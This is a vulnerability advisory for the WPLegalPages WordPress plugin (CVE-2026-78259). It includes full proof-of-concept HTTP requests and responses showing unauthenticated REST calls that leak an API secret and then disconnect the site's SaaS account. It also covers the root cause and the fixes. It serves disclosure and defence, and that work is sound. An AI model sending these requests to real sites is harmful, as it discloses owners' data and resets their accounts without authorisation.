








## Overview

- Advisory: https://www.cve.org/CVERecord?id=CVE-2026-78259
- CVE-2026-78259
- Affected plugin: WPLegalPages
- Affected versions: `<= 3.6.4`



## Summary

WPLegalPages `3.6.4` exposes multiple REST endpoints related to dashboard and subscription state without properly authenticating the caller.

The first endpoint:

```text
POST /wp-json/wpl/v2/get_user_dashboard_data
```

does not require a cookie, nonce, Authorization header, or WordPress account. When the site is in a connected state with the WPLegalPages SaaS, the endpoint returns sensitive data:

```text
user_email_id
legal page titles
policy_preview
api_secret
client_site_name
```

In the lab, the response disclosed:

```text
api_secret = SRnniQms6nwq5G7sobNYyIR7iWCurqkb
user_email_id = connected-owner@example.test
policy_preview.privacy_policy.body = WPLEGAL_SECRET_PREVIEW_20260429
```

This secret can then be used to call the disconnect endpoint:

```text
POST /wp-json/wpl/v2/delete_activation
X-WPLP-SECRET: SRnniQms6nwq5G7sobNYyIR7iWCurqkb
```

There is also another endpoint that disconnects the account without requiring the secret:

```text
POST /wp-json/appwplp/v1/wplp_subscription_status_pending_cancel
{"subscription_status":"pending-cancel"}
```

As a result, an unauthenticated attacker can both read dashboard/API secret data and reset/disconnect the site's WPLegalPages account.

## How I Found It

I inspected the plugin's REST routes because it is a plugin that connects to an external SaaS, and such plugins commonly have callback/dashboard sync endpoints.

The dashboard data route is registered in `admin/class-wp-legal-pages-admin.php`, and its permission callback only checks the site's connected state. If the account connected option is true, the public request is allowed through.

The problem is in the authorization logic: the site's connected state does not prove that the caller is an administrator or a valid SaaS vendor. It is only an internal configuration state.

When sending a request without authentication:

```text
POST /wp-json/wpl/v2/get_user_dashboard_data
```

the server returns `200 OK` and discloses `api_secret`.

Then this secret is used in the header:

```text
X-WPLP-SECRET: SRnniQms6nwq5G7sobNYyIR7iWCurqkb
```

to call:

```text
/wp-json/wpl/v2/delete_activation
```

The plugin resets the connected account settings.

I also tested the endpoint:

```text
/wp-json/appwplp/v1/wplp_subscription_status_pending_cancel
```

This endpoint is even more serious because, with the body `{"subscription_status":"pending-cancel"}`, it disconnects the account without requiring the secret.

## Root Cause

The root cause is that the REST permission callbacks only check whether the plugin is connected; they do not check the caller.

### 1. Dashboard Endpoint Is Public When the Site Is Connected

Endpoint:

```text
POST /wp-json/wpl/v2/get_user_dashboard_data
```

is allowed when `$is_user_connected` is true. This allows any unauthenticated request to read dashboard data when the site is connected to the SaaS.

The exposed data includes:

```text
user_email_id
page_results
api_secret
policy_preview
client_site_name
client_site_url
```

### 2. Disconnect Endpoint Trusts the Secret Leaked From the Public Endpoint

Endpoint:

```text
POST /wp-json/wpl/v2/delete_activation
```

accepts the header:

```text
X-WPLP-SECRET: <api_secret>
```

But the same `api_secret` is leaked from `/get_user_dashboard_data`. Therefore, the attacker can chain disclosure -> disconnect.

### 3. Pending-Cancel Endpoint Disconnects Without the Secret

Endpoint:

```text
POST /wp-json/appwplp/v1/wplp_subscription_status_pending_cancel
```

receives:

```json
{"subscription_status":"pending-cancel"}
```

and calls the disconnect path for a non-active subscription status. It also relies only on the connected state and does not authenticate the caller.

### 4. Disconnect Resets the Connected Account Settings

After disconnect, the server-side state becomes:

```text
connected=false
email=
api_token=
activation=
```

This breaks the SaaS connection and can damage the site's legal policy sync/subscription state.

## Exploitation Flow

```text
Attacker is not logged in
        |
        v
POST /wp-json/wpl/v2/get_user_dashboard_data
        |
        v
Response discloses api_secret + dashboard data
        |
        v
POST /wp-json/wpl/v2/delete_activation
X-WPLP-SECRET: <api_secret>
        |
        v
Connected account is reset
```

The second flow does not require the secret:

```text
Attacker is not logged in
        |
        v
POST /wp-json/appwplp/v1/wplp_subscription_status_pending_cancel
{"subscription_status":"pending-cancel"}
        |
        v
Plugin calls the disconnect path
        |
        v
Connected account is reset
```

- Entry point 1: `POST /wp-json/wpl/v2/get_user_dashboard_data`
- Entry point 2: `POST /wp-json/wpl/v2/delete_activation`
- Entry point 3: `POST /wp-json/appwplp/v1/wplp_subscription_status_pending_cancel`
- Condition: The site has a connected WPLegalPages SaaS account.
- Final impact: Dashboard/API secret disclosure and account disconnect/reset.

## PoC

Lab environment:

```text
Target: http://192.168.1.10:8080
Plugin: WPLegalPages 3.6.4
State: connected=true
Authentication: Not logged in
```

### Get Dashboard Data And API Secret Without Login

Request:

```http
POST /wp-json/wpl/v2/get_user_dashboard_data HTTP/1.1
Host: 192.168.1.10:8080
User-Agent: BurpSuite/2026.4
Accept: application/json
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=UTF-8

{"success":true,"is_user_connected":true,"client_site_url":"http:\/\/192.168.1.10:8080","user_email_id":"connected-owner@example.test","legal_pages_published":"2","page_results":["Confidential Legal Policy 20260429","Confidential Legal Policy 20260429"],"client_site_name":"RestroPress-Lab","api_secret":"SRnniQms6nwq5G7sobNYyIR7iWCurqkb","policy_preview":{"privacy_policy":{"title":"Internal Privacy Policy Preview","body":"WPLEGAL_SECRET_PREVIEW_20260429"}}}
```



Exposed data:

```text
"user_email_id":"connected-owner@example.test"

"api_secret":"SRnniQms6nwq5G7sobNYyIR7iWCurqkb"

"policy_preview":{
        "privacy_policy":{
                "title":"Internal Privacy Policy Preview",
                "body":"WPLEGAL_SECRET_PREVIEW_20260429"
        }
}
```

### Case 1: Disconnect the Account Using the Leaked Secret

Request:

```http
POST /wp-json/wpl/v2/delete_activation HTTP/1.1
Host: 192.168.1.10:8080
User-Agent: BurpSuite/2026.4
Accept: application/json
X-WPLP-SECRET: SRnniQms6nwq5G7sobNYyIR7iWCurqkb
```

Response:

```http
HTTP/1.1 200 OK
Content-Length: 0
Content-Type: application/json; charset=UTF-8
```



Server-side verification:

```text
connected=false
email=
api_token=
activation=
secret=SRnniQms6nwq5G7sobNYyIR7iWCurqkb
```



Compare the `delete_activation` source route; its permission callback accepts the `X-WPLP-SECRET` header to call disconnect:



### Case 2: Direct Disconnect Without the Secret

Request:

```http
POST /wp-json/appwplp/v1/wplp_subscription_status_pending_cancel HTTP/1.1
Host: 192.168.1.10:8080
User-Agent: BurpSuite/2026.4
Accept: application/json
Content-Type: application/json

{"subscription_status":"pending-cancel"}
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=UTF-8

{"message":"Subscription Status Changed to Pending Cancel"}
```



Server-side verification:

```text
connected=false
email=
api_token=
activation=
secret=SRnniQms6nwq5G7sobNYyIR7iWCurqkb
```



The source of the pending-cancel endpoint only checks the connected state; for a subscription status other than `active`, the plugin calls `perform_disconnect()`:



## Impact

The issue affects confidentiality, integrity, and availability.

Confidentiality:

1. The connected account email is disclosed.
2. Legal page titles are disclosed.
3. Policy preview content is disclosed.
4. `wplegalpages_api_secret` is disclosed.
5. The site name/site URL related to the dashboard is disclosed.

Integrity/Availability:

1. An unauthenticated attacker can disconnect the WPLegalPages account.
2. The API token/account settings are reset.
3. Legal policy synchronization may be broken.
4. The site owner's subscription/account state is changed without authorization.

## Limitations

- The site must be in a connected state with the WPLegalPages SaaS.
- If the site is not connected, the permission callback may not allow the dashboard endpoint through.
- The issue does not directly create WordPress administrator privileges or RCE.
- The impact depends on whether the site uses WPLegalPages to sync/manage legal policies.

## Mitigation

REST endpoints must authenticate the caller and must not rely only on the site's connected state.

The main fixes are:

1. The dashboard endpoint must require an administrator:

```php
current_user_can( 'manage_options' )
```

2. The vendor callback endpoint must authenticate using a secret/signature that is never returned by a public endpoint.
3. Do not include `api_secret` in the `/get_user_dashboard_data` response.
4. `delete_activation` must require administrator capability or a valid vendor signature.
5. `wplp_subscription_status_pending_cancel` must authenticate the caller and bind the request to the SaaS vendor.
6. Disconnect/reset account operations must have strong authorization and an audit log.

Safer flow:

```text
Receive REST request
        |
        v
If the request comes from the admin UI: current_user_can('manage_options') + nonce
        |
        v
If the request comes from the SaaS: verify a signature/shared secret that is not publicly exposed
        |
        v
Only after validation, read dashboard data or disconnect the account
```

## References

- WPLegalPages: https://wordpress.org/plugins/wplegalpages/
- Patchstack researcher: https://patchstack.com/database/wordpress/plugin/wplegalpages/vulnerability/wordpress-wplegalpages-plugin-3-7-0-broken-authentication-vulnerability
- WordPress plugin source tag 3.6.4: https://plugins.svn.wordpress.org/wplegalpages/tags/3.6.4/
- WordPress plugin source tag 3.7.1: https://plugins.svn.wordpress.org/wplegalpages/tags/3.7.1/
